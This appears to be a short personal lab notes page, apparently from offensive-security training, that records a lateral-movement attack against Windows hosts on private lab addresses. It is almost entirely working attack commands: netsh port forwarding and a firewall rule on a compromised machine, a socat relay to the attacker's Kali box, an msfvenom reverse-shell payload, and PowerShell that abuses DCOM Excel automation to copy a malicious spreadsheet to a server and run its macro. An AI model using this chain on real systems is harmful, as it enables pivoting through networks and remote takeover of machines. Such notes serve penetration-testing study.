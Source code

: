 ```yaml
---
category: Uncategorized
tags: []
---
```

| My Kali IP | Win10 | WinServ |
| ----------- | ----------- |  ----------- |
| 192.168.119.190 | 192.168.190.10 |  172.16.190.5 |

![[rlwrap]]

Win10:

Forward any traffic on Win10:4444 box to Kali:443:
```command prompt - target
netsh interface portproxy add v4tov4 listenport=4444 listenaddress=192.168.190.10 connectport=443 connectaddress=192.168.119.190
```

Setting up firewall rule:
```command prompt - target
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=192.168.190.10 localport=4444 action=allow
```

Setting up socat to forward traffic from port 4444 to kali:443:
```command prompt - target
socat tcp-l:4444,fork,reuseaddr tcp:192.168.119.190:443
```

Generate reverse shell code to execute on the WinServ target:
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=172.16.190.10 LPORT=4444 -f hta-psh
```

Execute malicious excel file on remote machine for reverse shell to trigger on Kali box.

```powershell - target
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "172.16.190.5"))

$LocalPath = "C:\Users\jeff_admin\Desktop\myexcel.xls"

$RemotePath = "\\172.16.190.5\c$\myexcel.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

$Path = "\\172.16.190.5\c$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [system.io.directory]::createDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\myexcel.xls")

$com.Run("mymacro")
```
